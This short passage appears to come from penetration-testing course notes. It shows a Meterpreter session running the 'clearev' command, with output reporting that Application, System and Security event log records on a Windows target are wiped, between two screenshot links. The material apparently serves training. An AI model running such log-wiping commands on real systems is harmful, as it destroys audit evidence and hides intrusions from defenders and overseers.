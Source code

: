 ![QQ图片20230303195936.png](/img/in-post/ine/QQ图片20230303195936.png)

```
meterpreter > clearev
[*] Wiping 255 records from Application...
[*] Wiping 520 records from System...
[*] Wiping 15906 records from Security...
```

![QQ图片20230303200226.png](/img/in-post/ine/QQ图片20230303200226.png)
